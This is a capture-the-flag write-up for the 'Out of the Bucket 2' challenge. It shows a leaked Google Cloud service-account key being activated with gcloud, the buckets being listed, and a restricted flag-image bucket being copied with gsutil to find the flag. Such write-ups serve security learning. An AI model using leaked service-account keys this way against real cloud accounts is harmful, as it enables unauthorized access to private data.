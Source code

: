 # misc/Out of the Bucket 2
`Points: 407`

### Description
```
This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!

Author: windex
```

![funny.json](img/funny.png)

Before, we saw the `secret/funny.json`. Then, do like this!

```shell
~ % gcloud auth activate-service-account --key-file=funny.json
Activated service account credentials for: [image-server@out-of-the-bucket.iam.gserviceaccount.com]

~ % gcloud storage buckets list
---
creation_time: 2023-12-29T16:56:35+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: flag-images
public_access_prevention: enforced
rpo: DEFAULT
storage_url: gs://flag-images/
uniform_bucket_level_access: true
update_time: 2023-12-29T17:04:30+0000
---
creation_time: 2023-12-29T15:47:39+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: out-of-the-bucket
public_access_prevention: inherited
rpo: DEFAULT
storage_url: gs://out-of-the-bucket/
uniform_bucket_level_access: true
update_time: 2023-12-29T16:33:52+0000

~ % gsutil cp -r gs://flag-images .
Copying gs://flag-images/256x192/ad.png...
Copying gs://flag-images/256x192/ae.png...                      
Copying gs://flag-images/256x192/af.png... 
...
\ [255 files][  1.4 MiB/  1.4 MiB]    7.1 KiB/s 
Operation completed over 255 objects/1.4 MiB.
```

We'll find the picture that is different from the others.

![different flag](img/ffff.png)

Gotcha~~~